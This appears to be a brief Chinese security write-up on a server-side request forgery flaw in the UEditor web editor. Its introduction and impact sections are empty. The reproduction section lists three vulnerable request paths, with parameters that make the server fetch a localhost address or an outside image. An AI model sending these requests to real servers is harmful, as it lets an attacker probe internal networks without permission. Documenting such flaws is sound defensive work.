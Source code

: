 # ueditor ssrf

> 原文：[https://www.zhihuifly.com/t/topic/3206](https://www.zhihuifly.com/t/topic/3206)

# ueditor ssrf

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.cimg/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.cimg/baidu_jgylogo3.gif `存在就会抓取成功、也可以抓取外网的测试` 
```